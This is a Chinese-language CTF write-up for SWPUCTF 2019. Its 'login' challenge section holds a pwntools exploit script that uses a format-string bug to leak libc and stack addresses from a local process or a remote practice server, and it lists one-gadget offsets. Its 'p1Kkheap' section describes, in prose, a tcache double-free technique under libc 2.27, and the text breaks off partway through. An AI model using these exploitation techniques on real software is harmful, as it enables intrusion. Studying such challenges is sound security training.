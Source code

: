 ## SWPUCTF

### login

32位print，buf在bss中，需要找两个二级指针，覆写retn_addr和arg位置即可

```py
#coding=utf-8
from pwn import *
context.update(arch='i386',os='linux',log_level='DEBUG')
context.terminal = ['tmux','split','-h']
debug = 1
elf = ELF('./SWPUCTF_2019_login')

if debug:
    libc = ELF('/lib32/libc.so.6')
    p = process('./SWPUCTF_2019_login')
    gadgets = [0x3ac5c,0x3ac5e,0x3ac62,0x3ac69,0x5fbc5,0x5fbc6]
else:
    gadgets = [0x3a80c,0x3a80e,0x3a812,0x3a819,0x5f065,0x5f066]
    libc = ELF('./x86_libc.so.6')
    p = remote('f.buuoj.cn',20171)


def exp():
    #leak libc
    p.recvuntil("Please input your name: \n")
    p.send("/bin/sh\x00")
    p.recvuntil("Please input your password: \n")
    gdb.attach(p,'b printf')
    p.send("+%15$p-+%13$p-")
    p.recvuntil('+')
    libc_base = int(p.recvuntil("-",drop=True),16) - 247 - libc.sym['__libc_start_main']
    log.success("libc base => " + hex(libc_base))
    #leak stack
    p.recvuntil('+')
    ebp_addr = int(p.recvuntil("-",drop=True),16) - 56
    log.success("ebp addr => " + hex(ebp_addr))

    p.interactive()

exp()
```

### p1Kkheap

#### 程序逻辑 & 漏洞利用

题目开了沙箱禁了execve，double free，libc 2.27，只能free3次，有点像SCTF的one_heap，给了4次free，不过这里有edit要好得多。程序还有Show，所有操作次数要小于等于18次。

首先double free，再Malloc三次让tcache的count为0xff(>7)，再释放一个这个大小的chunk即可进ub，泄露libc。  
